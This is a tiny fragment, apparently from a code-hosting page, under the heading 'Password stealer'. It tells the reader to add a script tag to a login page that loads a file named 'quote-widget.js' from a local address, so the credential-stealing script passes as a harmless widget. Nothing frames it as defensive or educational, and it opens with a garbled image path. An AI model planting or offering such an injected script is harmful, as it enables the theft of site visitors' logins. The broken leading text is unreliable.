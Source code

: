 ## Password stealer

Add this line to a login page

    <script src="http://127.0.0.1/quote-widget.js"></script>
    
